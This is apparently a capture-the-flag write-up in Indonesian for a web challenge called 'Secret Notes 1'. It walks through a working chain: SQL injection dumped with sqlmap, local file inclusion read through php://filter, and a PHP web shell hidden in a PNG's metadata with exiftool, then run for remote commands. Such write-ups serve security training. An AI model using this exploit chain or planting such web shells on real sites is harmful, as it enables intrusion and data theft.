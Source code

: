 # Secret Notes 1
Percayakan rahasiamu pada kami, kami akan menjaganya sepenuh hati seperti n---skip---<br/>

http://103.171.85.90:8082<br/>

Password VM : **4d1b54eeaceb5277ea022f7b42b53113**

##  Penjelasan
Cari vulnerability dalam web tersebut.

## How to Solve
1. Setelah beberapa lama mencari endpoint yang vulnerable, saya menemukan bahwa halaman edit secret ***/page.php?f=editsecret&id=your-id*** vuln terhadap sql injection.<br/>
2. Test sql injection dengan menambahkan ' (quote) pada judul. Didapatkan error sebagai berikut :
```
UPDATE `secret` SET `judul` = 'a'', `secret` = 'a' WHERE `id` = '1431944397'You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'a' WHERE `id` = '1431944397'' at line 1
```
3. Gunakan tools sqlmap untuk mempercepat proses dump database.<br/>
command :<br/>
``sqlmap -r exploit.txt --dump``
<br/>
dengan isi file exploit.txt sebagai berikut :<br/><br/>
```
POST /page.php?f=editsecret&id=<your-id> HTTP/1.1
Host: 103.171.85.90:8082
User-Agent: <user-agent>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://103.171.85.90:8082
Connection: close
Referer: http://103.171.85.90:8082/page.php?f=editsecret&id=2145985763
Cookie: PHPSESSID=<php-session-id>
Upgrade-Insecure-Requests: 1

judul=test*&secret=test
```

didapatkan user dengan username **first-flag-is** dan password **KKST2021{do_you_k**

4. Saya lanjut mencari endpoint yang dapat di exploit lagi dan ditemukan bahwa parameter **editsecret** pada ***page.php?f=editsecret&id=your-id*** vuln terhadap **Local File Inclusion**
5. Check error dengan mengganti **editsecret** dengan value lain yang invalid.
**/page.php?f=randomstring**
didapatkan error sebagai berikut :<br/><br/>
```
**Warning**: include(randomstring.php): failed to open stream: No such file or directory in **/var/www/html/page.php** on line **15**  
  
**Warning**: include(): Failed opening 'randomstring.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/page.php** on line **15**
```
Dari error tersebut, saya mengira seperti inilah yang ada pada file page.php<br/>
```
<?php
	include($_GET["f"].".php");
	...
?>
```
6. Gunakan **php://filter/convert.base64-encode/resource=** untuk membaca file.<br/>
``http://103.171.85.90:8082/page.php?f=php://filter/convert.base64-encode/resource=page``
didapatkan isi dari **page.php** dalam base64 encoding.<br/>
```
PD9waHAgaW5jbHVkZSgnaGVhZGVyLnBocCcpOyA/PgoKCjw/cGhwCgogICAgaWYoaXNzZXQoJF9HRVRbJ2YnXSkpewoKCgogICAgICAgICRmaWxlcyA9ICRfR0VUWydmJ10uIi5waHAiOwoKICAgICAgICBpZihwcmVnX21hdGNoKCcvXC5wbmcvbScsICRfR0VUWydmJ10pKXsKICAgICAgICAgICAgaW5jbHVkZSAkX0dFVFsnZiddOwogICAgICAgIH1lbHNlewogICAgICAgICAgICBpbmNsdWRlICRmaWxlczsKICAgICAgICB9CgogICAgICAgIAoKICAgIH0KCj8+CgoKPD9waHAgaW5jbHVkZSgnZm9vdGVyLnBocCcpOyA/Pg==
```
Setelah di decoding, didapatkan isi dari file **page.php**<br/><br/>
```<?php include('header.php'); ?>
<?php

    if(isset($_GET['f'])){



        $files = $_GET['f'].".php";

        if(preg_match('/\.png/m', $_GET['f'])){
            include $_GET['f'];
        }else{
            include $files;
        }



    }

?>


<?php include('footer.php'); ?>
```
Setelah membaca file tersebut, ada sesuatu yang menarik yaitu, saya dapat memanggil file **png** dan di halaman **upload.php** terdapat form upload file untuk mengunggah gambar. Saya berpikiran untuk mengupload backdoor dengan file png yang disisipkan kode php, sehingga ketika nanti file png tersebut dipanggil, maka kode php tersebut berjalan.

7. Gunakan **exiftool** untuk menambahkan kode php ke dalam file png.
	command :<br/>
	 ``exiftool -Comment='<?=`$_GET[0]`?>' file.png``
8. Upload file tersebut pada halaman **upload.php**, otomatis file tersebut akan ter-rename dengan format **file/\<nama-user\>.png** dalam kasus saya adalah **file/user.png**
9. Panggil file png yang sudah diupload tadi.
``http://103.171.85.90:8082/page.php?f=file/user.png``  
10. Setelah memanggil file png tadi, sekarang saya dapat melakukan command shell. 
``http://103.171.85.90:8082/page.php?f=file/user.png&0=<your-command>``
11. Gunakan command **ls -lah** untuk melihat directory, sehingga ditemukan folder **.Administrator** yang berisikan file index.php
12. Gunakan command **cat** untuk membaca file tersebut.
``http://103.171.85.90:8082/page.php?f=file/user.png&0=cat .Administrator/index.php``
13. view-page source dan didapatkan flag bagian kedua :<br/>
```
<?php 
  $another_flag = "now_another_cooking?_twiceeee!!!}";
?>
```

## Flag
KKST2021{do_you_know_another_cooking?_twiceeee!!!}
